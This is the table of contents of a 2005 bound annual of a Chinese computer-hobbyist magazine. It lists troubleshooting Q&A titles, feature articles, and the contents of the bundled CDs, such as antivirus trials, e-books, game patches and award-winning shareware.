- 389 买光驱的爆笑故事—此52X与彼16X

## 2005合订本 上半年刊

编者

- 394 关于待机、休眠的经典问答
- 394 七招排除软件安装故障
- 396 今天我们要“爆”CS故障的“头”
- 397 巧用工具修改“乱码”文件名
- 397 杀木马的软件居然带病毒？
- 397 再谈XP变“苹果”
- 398 拿什么拯救你，我的MP3
- 398 网页插件 让我欢喜让我忧

## (一) 系统

- 399 安装Windows 98时出现SU0167错误
- 399 磁盘空间充裕却为何提示空间不足
- 399 拥有512MB内存的电脑总提示内存不足
- 399 杀毒软件无法预防MSN感染小尾巴病毒
- 399 如何备份Windows XP的激活信息
- 399 Windows XP激活文件通用性问题
- 399 Windows Me接USB外置光驱出问题
- 399 浏览某特定网站时IE总是自动关闭
- 399 安装软件时出现的接口支持问题
- 399 启动系统时出现VXD和386错误
- 399 再现Windows XP加密分区的文件
- 399 Windows XP开机时没有运行“启动”中的项目
- 400 无法启动EXE文件扩展名的程序
- 400 资源管理器的“文件夹”侧边栏空白问题
- 400 MSN Messenger 7.0登录错误
- 400 让幸福五笔在Windows XP中安家
- 400 Windows XP不能完成磁盘碎片整理
- 400 启动系统时提示缺少Svchost.exe
- 400 文本文件图标变成了文件夹图标
- 400 无法正确打开Internet链接的快捷方式
- 400 为什么IE经常提示禁止下载
- 400 找回丢失的“隐藏不活动的图标”
- 400 控制面板的“用户账户”不能显示图片
- 400 浏览器无法显示Flash文件
- 401 安全证书失效引起的问题
- 401 ERD磁盘——系统救命稻草
- 401 恢复被病毒损坏的系统文件
- 401 Windows 2000中实现计划任务
- 401 正确的用户名和密码无法登录到域
- 401 恢复Windows的启动菜单
- 401 恢复XP系统下损坏的文件
- 401 “用户账户”的奇怪故障
- 401 网游挂机为什么也“卡”
- 401 双击打开文件和文件夹功能失效
- 401 系统文件被替换或删除后的修复
- 402 双系统出现“boot.ini非法”错误
- 402 WinXP没有正确识别内置调制解调器
- 402 WinDVD缺少WNASPI32.DLL无法运行
- 402 如何正确删除拥有管理员权限的账户
- 402 无法打开“搜索”功能
- 402 Windows Media Player无法切换到完整模式
- 402 无法打开“添加/删除程序”
- 402 设备名称冲突引起Windows 98蓝屏死机
- 402 解决输入法自定义词组跨系统使用问题
- 402 安装SQL Server 2000时出错中断的解决
- 402 虚拟内存设置中自定义页面功能失效
- 403 Windows 2000中WinMgmt出错的顽症
- 403 杀毒后Windows Update页面链接失效
- 403 Windows XP系统病毒防护功能启用问题
- 403 XSL文件损坏造成的问题及解决方法
- 403 空间足够却为何提示安装空间不足
- 403 操作系统的“搜索”功能为何失效了
- 403 Windows XP中自定义打印机纸张的问题
- 403 IE中Internet高级选项设置为何消失了
- 403 安装REDHAT LINUX 7.2后不能进入图形界面
- 403 “搜索”选项丢失后如何恢复
- 403 系统更新时出错而不能进行下去
- 403 压缩包中多出folder.htt和Desktop.ini文件
- 403 无法显示HTM或HTML的文件图标
- 403 Explorer进程无法自动加载
- 404 查看源文件时不显示源代码
- 404 “帮助和支持”中的连接结果为“没有定义”
- 404 卸载程序没有“更改/删除”按钮
- 404 卸载SP1补丁后修复更新系统出错
- 404 IE中的安全设置选项按钮为何失效了
- 404 关机时电脑转睡眠功能为何消失了
- 404 装英文软件后菜单变英文或干脆消失
- 404 Winipcfg或IPconfig运行错误
- 404 卸载软件后系统启动提示找不到VXD文件
- 404 “自动完成”功能不保存用户名和密码
- 404 系统出现“Limited Virtual Memory”错误信息
- 404 改变所有文件夹的显示方式
- 405 Msvcirt.dll文件链接错误
- 405 “任务管理器”没有显示进程的用户名

## (二) 硬件

- 405 EPSON打印机维护箱需要及时更换
- 405 设置开机密码时遇到的怪问题
- 405 如何修正主板的网络唤醒功能
- 405 自检时出现的硬盘故障提示
- 405 重启电脑显卡驱动程序丢失故障
- 405 如何解决出现Disk I/O error错误提示的故障
- 405 内存不兼容导致容量不能正确识别
- 405 为什么在Windows XP下更换电视卡的驱动时出现错误提示
- 405 自检时出现的硬盘故障提示
- 405 Windows 98环境下显卡安装问题
- 406 拨号上网连续报警不能接通
- 406 无线网卡总是无法搜索到AP
- 406 Windows 2003下某些主板出现假死机
- 406 外置光驱不能打开和读取光盘故障
- 406 SATA硬盘有通用驱动程序吗
- 406 MP3播放器无法开机故障
- 406 劣质网卡引发ADSL宽带频频断线
- 406 安装网卡后系统启动时间变长
- 406 为何耳麦有回音 Modem没声音
- 406 如何解决硬盘引导记录损坏
- 406 检查数码相机CCD上的坏点
- 406 数码摄像机该如何正确清洗磁头
- 406 RAID选项设置不当引起系统安装失败
- 406 开机时出现CMOS容量不匹配错误
- 406 更换显卡后软件找不到AGP存储器
- 407 打印机一次进多页纸的故障
- 407 Linux操作系统下使用USB闪盘
- 407 如何更换风扇和散热片一体的显卡风扇
- 407 喷墨打印机可以打印金银色吗
- 407 为何用OCR识别时文字有乱码
- 407 什么样的数码相机适合水中拍摄
- 407 非标准工作频率导致硬盘频频出错
- 407 OCR识别时提示“只能扫描二值图像”
- 407 数码相机无法读取存储卡
- 407 液晶显示器启动时出现花屏
- 407 打印机不能进纸故障解决
- 407 P4主板连接USB设备烧坏南桥芯片
- 407 SATA硬盘可以安装RedHat 9系统
- 408 如何修复有明显划痕的硒鼓
- 408 Windows 98电源管理键有何作用
- 408 安装虚拟光驱导致物理光驱“丢失”
- 408 为何喷墨打印机经常不出墨
- 408 笔记本电脑字母键与数字键合并
- 408 MP3播放器无法播放歌曲
- 408 东芝TE2100笔记本BIOS设置
- 408 Radeon 8500显卡媒体播放问题
- 408 购置热升华打印机的疑惑
- 408 玩游戏时音量控制按钮失效
- 408 安装系统检测硬件时死机
- 408 6.1音箱可用5.1声卡输出6.1声道的声音吗
- 408 为何激打在打印时出现了一条平行于纸张长边的白线
- 408 为何5.1声道声卡只有2个声道发声
- 409 为何无法调整显卡刷新频率
- 409 如何在购买时简单检测显示器质量
- 409 为何DC拍摄的照片与LCD看到的景物有位移现象
- 409 声卡无法捕获电视卡声音
- 409 开机自检过程中发生的错误
- 409 安装主板IDE驱动出现死机
- 409 安装SATA驱动必须要软驱吗
- 409 集成声卡主板无法安装PCI声卡
- 409 重新开机不能识别出鼠标
- 409 USB端口不能正常工作
- 409 如何检测CPU的性能
- 409 为何我的电脑没有“休眠”功能
- 410 Socket A处理器上的四个橡胶垫有何用途
- 410 无法调整显卡刷新频率
- 410 内置调制解调器使用中的怪问题
- 410 看似正常的调制解调器不能拨号
- 410 BIOS测CPU温度与诊断家所测不同
- 410 开机自检时出现系统被入侵的提示
- 410 非正常启动电脑后CPU频率变低
- 410 启动到显示桌面时突然黑屏
- 410 Win98第二版如何实现STR功能
- 410 内存条的CL=2和CL=3是什么意思
- 410 显示器屏幕的四周有一圈黑框
- 411 升级CPU造成电脑无法启动
- 411 硬盘主引导区损坏造成电脑无法启动
- 411 让物理光驱盘符与虚拟光驱盘符换岗
- 411 Windows XP下不能安装USB 2.0驱动
- 411 升级CPU后主板的Update功能失效了
- 411 “墨尽”指示灯未亮时如何更换墨盒
- 411 常见笔记本电脑投影输出的切换键
- 411 更换显卡后出现蓝屏死机故障
- 411 随机附赠的鼠标为何无法识别出来
- 411 DirectX中的AGP材质加速参数失效
- 411 如何消除明基外接耳机的杂音
- 411 为何BIOS有时不能识别出硬盘
- 411 SATA硬盘不支持常用分区工具吗？
- 411 Windows 98启动出现0137异常错误
- 412 集成显卡主板装独立显卡无信号
- 412 启动Linux不能检测到网卡
- 412 液晶显示器我家不亮商家亮
- 412 为何数码相机突然自动关机了
- 412 为何硬盘会自动加速
- 412 为何刻录机不能正常刻盘了
- 412 BIOS升级失败如何处理
- 412 为什么游戏和MP3的声音会比正常速度快
- 412 为何总提示软盘未格式化

## (三)软件

- 412 文件数量过多时出现刻录失败
- 412 轻松解决日间隔期天数计算问题
- 412 Excel中快速输入大写中文金额
- 413 大片区域快速输入同一内容
- 413 自制特殊符号也能添加到系统中
- 413 字幕乱码不要慌
- 413 Office安装问题巧解决
- 413 解决Word中不能输入的问题
- 413 巧用SFV文件验证文件信息
- 413 清理Office工具栏上的多余工具条
- 413 关闭恼人的realsched.exe进程
- 413 越优化越慢的解决方案
- 413 解决DBSvr.exe错误问题
- 413 让智能五笔5.5版能够正常启动
- 413 让播放器不再自动复制CD
- 413 WPS Office 2003文字竖排问题
- 413 让文档以图片的形式进驻新文件中
- 413 一次换掉看不到的特殊符号
- 413 用户建立的Access表也能隐藏起来
- 413 “#NUM!”错误的原因和解决方法
- 414 巧抓视频图片
- 414 解决“豪杰大眼睛”关联问题
- 414 让GIF能够顺利地打印出来
- 414 解决不能转换WMA格式的问题
- 414 修复Kaspersky的右键菜单
- 414 修复无法使用的Excel文件
- 414 浏览QuickTime制作的MP4格式
- 414 让RealOne保存的CD音乐兼容其他播放器
- 414 安装转换器后才可打开WPS文档
- 414 实现对一系列可自动循环幻灯片的控制
- 414 让媒体文件接受RealOne Player的统治
- 414 不能用右键控制幻灯片播放了
- 414 PowerPoint幻灯片如何防修改
- 414 用Access数据库管理多媒体信息
- 415 不装PowerPoint如何播放幻灯片
- 415 在Access窗体中创建运行程序按钮
- 415 用WPS读出的DOC文件为何走了样
- 415 让擦除工具连续擦除线段
- 415 音频压缩和转换中的一些问题
- 415 如何打开扩展名为DAT的文件
- 415 解决ET中输入以0打头字串的难题
- 415 为何不能选择项目符号或编号字符
- 415 自制HTML文档为何不能用本程序打开
- 415 Word文档显示混乱的解决办法
- 415 解决删除输入法后惹来的麻烦
- 415 键盘上的Caps Lock为何无法关掉
- 415 标题母版文字为何发生了变化
- 415 无法搜索到文件夹中的已有文件
- 416 软键盘背后隐藏了许多特殊符号
- 416 金山毒霸无法清除病毒该如何处理
- 416 ACDSee 6.0无法浏览常见格式图片
- 416 解决ACDSee 7.0安装前后文件关联问题
- 416 WinISO为何不支持大一点的文件
- 416 系统升级后运行词霸2005出现桌面闪烁
- 416 无法安装WPS Office 2003的故障
- 416 更改整个演示文稿的项目编号样式
- 416 在局域网硬盘中直接录制CD音乐
- 416 正常卸载词霸后嵌入Office中的按钮为何还在
- 417 不再让RealOne Player主页烦你
- 417 修复意外情况造成的EXE文件错误关联
- 417 WPS 2005关联Microsoft Office文件的问题
- 417 无法为ACDSee 7.0幻灯片添加背景音乐
- 417 RealOne Player在线播放不畅
- 417 金山词霸2005英汉图解词典无法显示图片
- 417 解决RealOne Player抓取CD速度慢的问题
- 417 实现编辑器中下载地址一点即下
- 417 智能ABC输入法中v字母功能失效
- 417 只有韵母的汉字的双打输入问题
- 417 无法播放MIDI格式音乐的解决办法
- 417 调整参数让网络电视播放更流畅
- 417 收到的邮件出现乱码该怎么办
- 418 FlashGet下载级别迅速升降
- 418 转发器参数栏为何不可选
- 418 别被下载完成的假象所迷惑
- 418 FlashGet下载续传故障解决
- 418 怎样限制只从某网站搜索信息
- 418 看看有多少人链接了你的主页
- 418 如何搜索下载特定的某类文档
- 418 超级搜霸没有阻止的恶意网站
- 418 安装百度超级搜霸时出错
- 418 同一邮件管理器中每个账户分设密码
- 418 超级搜霸偷偷钻进我的电脑
- 418 解开上网速度概念的疑团
- 418 长网页中字符串查询快速定位法
- 418 PCI网卡信号不稳定故障解决
- 419 把“自动完成”功能专门搞丢
- 419 QQ一登录就发生错误
- 419 Foxmail 无法创建新邮件，无法自动断线
- 419 将系统升级为Windows XP后访问共享速度变慢了
- 419 FirewallClient导致无法上网的疑惑
- 419 一招解决本地DNS缓存故障
- 419 CCProxy导致ADSL频繁断线
- 419 802.11b设备能升级到802.11g吗
- 419 用内置拨号上网方式时常出现断线
- 419 ADSL拨号上网无法连接服务器故障
- 419 解决新邮件提示栏的问题
- 419 请来保卫IE的绿色使者
- 419 ADSL上网时接听电话会断线
- 419 设置Foxmail地址中的默认组
- 420 FlashFXP中如何定时上传文件
- 420 为什么不能打开某一特定网页
- 420 只导入MSN Messenger中的一个分组
- 420 如何不让QQ泄漏我的IP信息
- 420 找回Foxmail的“每日一帖”
- 420 USB接口ADSL MODEM拨号无法接通
- 420 不用大软件也做漂亮按钮
- 420 一步到位自动拨号及断线重拨
- 420 多个QQ同时快速自动登录
- 420 如何在Word中快速插入服务器上的共享图片资源
- 420 用资源管理器方式打开FTP站点
- 421 eMule搜索出韩文列表
- 421 删除IE中的ActiveX控件
- 421 为何我的IE不能断点续传
- 421 取消IE默认使用网际快车下载
- 421 加任意号码到QQ好友名单中
- 421 不要轻易迷信谨慎转发信息
- 421 多机共享上网后为何速度变慢
- 421 共享宽带上网的多种实现方法
- 421 如何让MSN Messenger不干扰我
- 421 如何彻底删除Mozilla Firefox
- 421 解决由于使用MS AntiSpyware后无法上网的问题
- 421 Q币能否转让
- 421 OE无法收取新申请的Hotmail邮件
- 422 新打开的网页为何总是自动显示出来
- 422 如何把Foxmail中的未发送邮件导入到OE中
- 422 Foxmail的地址记忆功能备份
- 422 不能直接全部导入的列表下载法
- 422 Windows 98机器无法登录域
- 422 清理历史记录功能为何失效了
- 422 成批优化网络图片有傻瓜办法
- 422 BitComet下载前申请磁盘空间是否能减少对磁盘的伤害
- 422 Firefox下载论坛上的附件的问题
- 422 自动断开连接 替我省钱
- 422 为什么不能打开任何网页
- 422 FlashFXP下载FTP服务器文件经常卡住
- 422 Outlook 2003中直接预览附件中的图片
- 422 Foxmail 5.0无法收发126.com邮件
- 423 Foxmail 5.0无法发送126.com邮件
- 423 ADSL Modem突然无法上网的问题
- 423 声称是1Mbps的ADSL网速为何很慢
- 423 百度超级搜霸工具条哪里去了
- 423 ADSL Modem 为何“准时”掉线
- 423 防火墙冲突导致无法上网故障
- 423 “超级终端”窗口无法输入命令
- 423 安装QQ后运行时找不到MSVCP60.DLL
- 423 局域网中部分电脑不能访问同一网页
- 423 无线局域网连接难与掉线问题
- 423 网卡与内“猫”冲突故障一例
- 423 Windows XP不支持NetBEUI协议吗
- 424 IE出现指令引用内存地址错误
- 424 内网FTP服务器如何连接外网
- 424 无法显示网页源文件的问题
- 424 系统不能自动下载Flash插件
- 424 大量下载时的ADSL掉线故障
- 424 无法使用网上银行
- 424 两台电脑收邮件的问题
- 424 取消FlashGet的下载限制
- 424 Firefox新链接用标签页形式打开
- 424 MSN不显示联系人的头像
- 424 节省你的QQ资源
- 425 “烧”出天籁般的声音 用电脑制作DVD-Audio
- 425 天空为什么是蓝色的？
- 425 IT评测 谁都能做
- 425 让每个人都成为博客
- 425 无痛苦试用Linux
- 425 到底谁是“鼠标王中王”
- 425 2004年，是谁动了你的电脑？
- 425 国产CS游戏“顶”你没商量
- 425 警惕手机病毒 带乱码来电别乱接
- 425 4元低价DVD刻录盘 到底选哪家？
- 425 嘿！就是这只“老狐狸”
- 425 绝对经典！全美TOP100演讲！
- 425 86件Firefox 浏览器能，而IE不能做的事
- 425 多图披露XP SP2制作全程
- 425 搜索高手从这里开始
- 425 端口基础常识大全
- 425 拼了！将PSP一拆到底
- 425 Netscape携双内核再度出击！
- 425 《国家地理》杂志评出2004年十大离奇发现
- 426 电子地图帮你解忧
- 426 我发现了一个Photoshop笔刷大宝库！
- 426 混充PhotoShop高手请用这10个白金秘技
- 426 对Linux感兴趣？这里给你一个全面了解它的机会
- 426 爱好者个性金条上市啦！
- 426 边聊边玩
- 426 爱护你的移动硬盘
- 426 网上银行逐个看
- 426 网络流传的微软面试题
- 426 别人眼中的去年十大IT事件
- 426 远程控制原来如此简单
- 426 拒绝绑架 HiJackThis应用专题
- 426 珍藏吧！Windows进程大全
- 426 另类评测：谁是文件传输最快的QQ 版本
- 426 到底谁才是王牌内存清洁工
- 426 思科路由器配置命令大全
- 426 你是最危险的网管吗？

## 2005合订本 ▶▶▶ [上半年]

- 433 拒绝神秘——高低端路由器的区别
- 433 神了！在Intel P4主板上用K8
- 433 蓝光之争再起波澜
- 433 算过吗？刻DVD刻出近千元
- 433 BT真的有强力发动机吗？
- 433 语音聊天用QQ？用TOM-skype？
- 433 GeForce4 MX440也疯狂
- 433 看键盘 猜职业
- 433 液晶真的完美吗？
- 433 明明白白Linux分区
- 433 Cracker，从这里开始
- 433 免费畅快，《血战上海滩》
- 433 狐狸真的该死吗
- 433 我猜、我猜、我猜猜猜
- 433 拒绝“角落男” 教你“玩阴的”
- 433 将iPod Shuffle “藏起来”
- 433 来自最权威的通向Longhorn报告
- 433 传说中的PS3
- 433 全面了解桌面搜索
- 433 彩蛋！请在电脑里面找
- 434 看看你长的像哪个明星
- 434 免费光盘 微软发的
- 434 教你一点一点改变你的操作系统
- 434 多图实战用PSP阅读RSS新闻
- 434 不看可惜！指导你应该如何购买iPod
- 434 低成本运行“魔兽世界”
- 434 测测你的PC能不能玩上真三国无双
- 434 微软默默做贡献 110个软件通通不要钱
- 434 反入侵——Windows XP下的NetBEUI
- 434 我跳，我跳，看我在CS中的超级跳
- 434 带RSS功能的浏览器你选谁？
- 434 饮食男女
- 434 MSN Spaces正式版隆重推出
- 434 到这里查查可疑文件的家底吧
- 434 QQ如来神掌的秘密
- 434 25年的25项最伟大科技突破
- 434 史上最全的QQ宠物秀
- 434 你对CPU了解多少
- 434 森海塞尔MX550到底值不值
- 434 Windows 2000服务器端设置教程
- 434 买不起PSP，咱自己动手做一个NES-Portable还不成？
- 434 Linux与Windows特性比较
- 435 诺基亚型号系列全面分析
- 435 全球最贵的11款车
- 435 麦当劳也出PC
- 435 手机放哪儿最健康
- 435 七款最值得出手的硬盘
- 435 小到找不着！整合电脑仅有水晶头大小
- 435 帮你免于失业的十大软件技术
- 435 谁把我的MP3变小了
- 435 字典、辞典要打假
- 435 76个经典的Windows技巧
- 435 一个IT人的建议：跳槽一定要谨慎
- 435 菜鸟，遇到电脑故障请先查这个！
- 435 Google的梦想办公室
- 435 要让电脑跑得欢，重点在预防
- 435 未来的iPod是什么样？
- 435 “苹果”电脑的传奇
- 435 K8狂飙 纯64位应用
- 435 你的IIS6.0安全吗
- 435 黑客究竟黑了谁
- 435 古怪硬件猜猜猜
- 435 揭国产正版游戏的
- 435 英文简历轻松写
- 436 教你玩转Outpost防火墙

- 436 短恶搞无罪 改编有理
- 436 驱动备份软件你选哪一款？
- 436 防忽悠！IT界的谎言辟谣 “Top Ten”
- 436 Google帮你记录自己的搜索历史
- 436 《半条命2》5年诞生全记录
- 436 深入剖析显卡供电
- 436 另类搜索大集合
- 436 软件下载你选谁
- 436 今天你网上翻唱了吗
- 436 你和谁有同一个梦想
- 436 赶快抢注微软新邮箱
- 436 吐血推荐！网上英语学习资源大整理
- 436 可怕！QQ用户升一级用电60亿度
- 436 无线网也能骗取用户信号卡
- 436 Outlook、Outlook Express应用大全
- 436 借你一双 “慧眼”：
- 436 邮箱大到没边儿啦
- 436 美国计算机专业前20名学校点评
- 436 你的机器别成为别人的肉鸡
- 436 显存比内存还多的nVIDIA QuadroFX双显卡SLI
- 436 体验Longhorn的精彩
- 436 你的ASP代码安全吗
- 437 免费拥有全系列iPod
- 437 MP3播放器的血缘关系
- 437 买笔记本，我该检查些什么
- 437 电脑到底需要多强的显卡
- 437 半机器人：将芯片植入人体
- 437 节电！我要盗用电信的电！
- 437 用《分裂细胞3：混沌理论》测测你的显卡
- 437 QQ隐患：400秒远程破解QQ密码（视频）
- 437 男生看过来！如何两步把T恤叠得最整齐
- 437 真假难辨，IE 7.0 Alpha已面世？
- 437 款款都是待机王
- 437 异形吃掉了一台PC
- 437 天堂的丁香花
- 437 下一代游戏机大预测
- 437 一名黑客的日记
- 437 G5改用AMD处理器
- 437 夏日来临，水冷风冷大比拼
- 437 X700 GDDR3火拼6600 GDDR3
- 437 nForce4 SLI Intel版对决AMD版
- 437 在线看E3大展
- 437 你身边人和你有什么梦想
- 437 硬盘+鼠标=万能钥匙？

## 创业

- 438 学生哥创业难，难于上青天
- 438 漫画人生的自由人
- 439 活跃在IT撰稿人中的孩子们
- 440 圆一个数码赚钱梦
- 442 象牙塔中 “钻钱眼”
- 443 免费服务也赚钱
- 444 认证指导：微软认证篇
- 444 给对手掌声
- 445 从家庭主妇到室内设计师
- 446 小耗材做出大市场
- 447 赚的就是美元——Google广告创收大行动
- 449 改变你一生的命运——专访首届“升存者”三名入围选手
- 449 创业 VS. 就业——观点大碰撞
- 450 留给未来的记忆——摄像工作室创业方案
- 451 扎货
- 283 新软物语
- 292 CFan小白鼠
- 296 CFan通缉令

## 配套光盘简介

## 光盘 A

特别奉献
趋势科技 PC-cillin 2005 网络安全版（三个月试用版）

趋势科技 PC-cillin 2005 网络安全版（简称 PC-cillin 2005）是趋势科技最新推出的防病毒产品。特点明显，它提供的保护非常全面，可以抵御各种类型的病毒、蠕虫、特洛伊木马以及混合威胁，包括网络病毒。它还可以阻止黑客、间谍程序、网络钓鱼（phishing）攻击、不恰当内容以及垃圾邮件等的侵扰。它所具有的新的本地网络控制和 Wi-Fi 入侵检测功能，使之成为第一个将桌面安全扩展到本地网络和无线网络的个人网络安全解决方案。

《动易 2005 电脑爱好者专用版》

《动易 2005 电脑爱好者专用版》是由佛山市动易网络科技有限公司和北京《电脑爱好者》杂志社为配合《电脑爱好者典藏版 2005——应用专题百宝箱》图书特别推出的版本。
本版本是基于动易2005 SP1正式版（Build 0428）开发。

金山毒霸 2005

金山毒霸2005是金山公司推出的最新防病毒软件，采用了多种先进技术，如主动实时升级、抢先启动防毒、主动漏洞修复、木马防火墙等。
这里给读者提供的是金山毒霸全功能试用版本，可以升级和查杀病毒，但如果需要长期使用，则需要订阅金山毒霸的升级服务。

e话通

e话通是263网络新近推出的“e话通”多人网络视频聊天，在各大下载排行榜上名列前茅。这是专门针对宽带而设计的多媒体聊天工具，除了具备传统IM所有功能外，最大的特点是可以实现多人的语音、视频通讯功能。
e话通可不受net地址映射网关或包过滤防火墙的影响，畅通、安全地进行视频语音通讯。即使你的防火墙锁定了访问端口也不怕，它可以提供语音视频连接端口映射处理！

## 视频教程

成为硬件评测师的十全武功

衡量电脑性能主要依靠软件测试。对于普通用户，在阅读媒体测试报告的基础上，也有必要对自己使用的电脑进行测试，有助于我们学习电脑知识，进而更熟练的操作电脑。走进中关村（www.intozgc.com）的这个系列视频节目会逐一向网友介绍各种产品的测试方法，内容包括CPU、主板、显卡、硬盘、光驱等电脑上常见的配件。
该节目分为显卡、显示器等十个节目。

一步步学 BIOS 设置

在组装电脑的时候，不可避免地要对主板BIOS进行相关设置。虽然这么多年来BIOS的基本内容没有发生过明显变化，但是对于一些新产品来说，我们还是会遇到莫名其妙的选项，比如内存时序的调节、设置RAID模式等等。此外，电脑故障中也有不少是由于BIOS设置不当引起的。所以，掌握BIOS的相关知识，对于正常使用、维护计算机是很重要的事情。

这些方面的内容，涉及到很多电子、芯片和数字电路方面的专业知识，即使专业的测试人员，也很难全面掌握这些知识。我们希望这走进中关村（www.intozgc.com）这个视频节目，能给普通用户带来一定的指导作用，使大家都能玩转电脑，不再迷惑于那些奇怪的BIOS选项。
该节目共有基本设置、高级设置、集成芯片设置、刷新BIOS等9个节目。

## 四季光盘之春欣赏

四季光盘是《电脑爱好者》杂志提供给订阅用户的礼品光盘，分为春夏秋冬各四张，有很多精彩内容，这里将四季光盘之春的精华栏目收录进来，以飨读者。
四季光盘之春选择的栏目有：精选FLASH、CFAN爆料王、CFAN美文报、产品百分百、新软物语、轻松用电脑、我拍拍拍等。

## 5本电子书

配套光盘 A 从《电脑爱好者》杂志社以往出品的图书中，精选了5本，做成PDF格式的电子书，提供给读者学习。

《BIOS 设置与调整秘籍》

BIOS的设置与调整一直以来都是电脑使用的热点，尤其是大多数初、中级用户都希望能够有资料帮助他们，本书以BIOS的基础知识为起点，针对主板、显卡、调制解调器等的BIOS设置、升级、优化进行了系统的讲解，引导读者如何通过BIOS来达到优化系统、解决常见问题。本书的读者定位为：电脑初、中级用户。

《玩转 Windows》

本书从电脑软硬件基础入手，以实例的形式详细介绍了DOS → Windows3.X → Windows9.X → Windows2000 Professional → Windows NT → Windows2000 Server → Windows XP各代操作系统的安装、使用和维护，以【小技巧】等图标方式突出这些过程中的技巧和注意点，同时搜集附上常用的一些工具、命令等资料，使读者不仅能够迅速掌握电脑的基础知识和Windows的安装、使用维护，还能够学习一些高级的技巧。本书适合于电脑初级、中级用户，对于电脑发烧友也有一定的参考意义。

《完全精通局域网》

《完全精通局域网》可为我们铺平成为网络工程师的道路。一个不了解局域网的人能够通过本书学会家庭网、网吧、小型办公网、无盘工作站的规划、成本核算、硬件的联结、软件的安装设置、维护以及局域网的安全与防黑。

《个人主页的设计与制作》

本书深入浅出地介绍了个人主页的设计制作，能让你在很短的时间里，掌握个人网站的基本制作方法，通过本书的学习，肯定会让你的个人网站脱颖而出。

《黑客防线》

本书精心选择了目前计算机网络安全与防黑方面最具普遍性的典型范例进行讲解，详细剖析了黑客攻击与网络防黑的基本原理，并针对个人电脑与网络服务器的安全问题，从攻防的角度讲解了与众多攻击手段相对应的防范技术，如对付黑客通过浏览器、电子邮件、OICQ、病毒、网络陷阱等进行攻击的防守技巧。书中还汇集了众多计算机安全资料，具有很强的实用性与资料收藏价值。

## 附录文章

由于附录空间有限，很多附录文章无法刊登，因此，我们将这些无法刊登文章，做成电子文章，提供给读者在电脑上阅读。这些文章一共11篇，列表如下：

- Windows快捷键大全
- 电脑硬件常见故障处理速查手册
- 电脑重要数据备份与恢复速查手册
- 个人信息管理软件一览
- 计算机应急救援简明方案
- 课件Flash制作
- 批量更名解决方案
- 师夷长技以制夷——HDVD完全制作方案1
- 无线网络的搭建
- 用计算机制作家庭影碟
- 主流视频编码软件对比

## 光盘 B

## 游戏空间

游戏补丁

合订本和互动软件杂志合作，在这里收录了15款热门游戏的补丁。

- 《FIFA2005》中国、荷兰超级大补贴
- 《PCSX2》v0.7目前最强PS2模拟器
- 《StarForce》虚拟光驱辅助工具v0.82B汉化版
- 《暗黑破坏神2毁灭之王》DiabloBox v5.2
- 《半条命2》死亡竞赛模式补丁
- 《大航海时代4加强版》修改器2.30版
- 《反恐精英》服务器管理工具HLSW 1.0.0.38
- 《反恐精英》英雄版插件补丁
- 《极品飞车8地下狂飙2》汉化版转英文补丁
- 《荣誉勋章血战太平洋》v1.1版修改器
- 《三国群英传5》内存修改器v1.0
- 《三国志10》中文版战斗作弊器
- 《仙剑奇侠传3》V1.4繁体版升级补丁
- 《虚幻2》中文汉化包
- 剑侠情缘升级补丁包

游戏壁纸

合订本和互动软件杂志合作，在这里收录了187个游戏壁纸。

## 2004年度优秀中国共享软件评选获奖软件

为了鼓励共享软件作者开发出优秀共享软件，同时也为对那些长期保持高水准并得到用户认可的共享软件给以充分肯定，“网络－中国共享软件注册中心（www.softreg.com.cn）”与《大众软件》，联合ZDNet、IT168、CSDN、猫扑等传媒共同举办2004年中国优秀共享软件评选活动。
合订本配套光盘跟网络合作，将评选的优秀共享软件收录到本光盘中，以供读者品评试用。详细情况，可参看附录的目录页中的介绍。

## 年度“评委选择奖”获奖软件名单

| 评选奖项 | 获奖软件 | 提名软件 |
| :--- | :--- | :--- |
| 最佳共享软件大奖 | 阿达连连看 | 超级兔子魔法设置 |
| 最佳界面奖 | 烈火数码影院DVD | Magic C++ |
| 最佳功能奖 | 超级转换秀 | TeamOne's Reader Flashget网际快车 |
| 最佳创意奖 | 按键精灵 | Flash转换王 Photofamily－电子相册王 |
| 最佳营销服务奖 | Windows优化大师 | 天网防火墙 |

## 年度“用户选择奖”获奖软件名单

| 评选奖项 | 获奖软件 | 提名软件 |
| :--- | :--- | :--- |
| 最佳系统工具 | Windows优化大师<br>超级兔子魔法设置 | 网际快车flashget |
| 最佳应用软件 | 按键精灵<br>大头贴制作系统 | XP变脸王 |
| 最佳图形图像 | 火狐Flash播放器<br>幻影 2004 | 家庭相册制作 |
| 最佳媒体工具 | 家庭卡拉Ok<br>超级转换秀 | UltraISO软碟通 |
| 最佳电脑娱乐 | 阿达连连看<br>聪明搬运工 | 休闲麻将 |
| 最佳编程工具 | Report Machine | 空缺 |
| 最佳掌上软件 | TeamOne's Reader | 空缺 |

## 共享精英

共享精英，一共收录了近60款优秀共享软件，由于篇幅关系，就不详细介绍，读者可查看相关光盘。下面是收录的软件列表：

### 系统工具（13款）

- 完美卸载V2005[杀毒伴侣+黄金内存+天盾防火墙]
- 光盘坏文件拷贝器
- 虚拟分区魔术师
- 众友文件加密－分割－粉碎集成版
- 天机文件备份同步专家
- 电脑加锁王
- USB 安全存储专家
- 硬件追捕
- 私人文件夹+私人驱动器+定时锁定专家+电脑防删专家+永久在线杀毒
- QQ密码防盗专家+QQ自动聊天器+QQ消息验证群发器+永久在线杀毒综合版
- 阿达好爸爸控制助手
- WinXP 总管
- 驱动精灵 2005 简体中文专业版

### 网络天地（10款）

- ADSL 上网伴侣 2005
- My Cookie (IE Cookie察看修改)
- 网络吸管软件 (NetworkSucker)
- HTTP 网址抓取器
- 超级助手SuperAide网络版
- 有声有色
- IE 修复专家 钻石版
- FlashGet Partner (FlashGet 伴侣)
- IE 浏览器修复工具
- 不准玩游戏

### 图形图像（8款）

- 开关机画面管理器
- 金童图霸 2004简体中文增强版
- Acme CADSee 中文版
- 风漫－漫画制作软件
- AcmeTraceART 中文版
- Bmp2Txt
- PALCU儿童绘画软件
- 数码大师 2005

### 媒体工具（10款）

- 音乐贺卡厂钻石会员光盘版
- 网络音乐迷录音机
- 牧童圈歌
- RM转换精灵＋视频分割专家
- Flash 转换王
- 字幕转换通
- MP3 CD 刻录大师
- 傲视英语秀制作机
- HappyEO电子琴 (标准版)
- 双子星录像机

### 其他（16款）

- 忆多多
- 纪年转换软件
- 办公助理
- 文档格式批量转换工具DocToTxt
- 我的时钟(MyTime)
- 飞跃机动车驾驶学科模拟考试系统

## 免费天地

这里收录了 30 款各型免费小软件。

### 系统应用（8款）

- Clipboard Recorder
- a-squared HiJackFree
- TaskArrange.exe
- RegSeeker
- LookDisk
- DiskCleaner
- RegMon
- Mmm

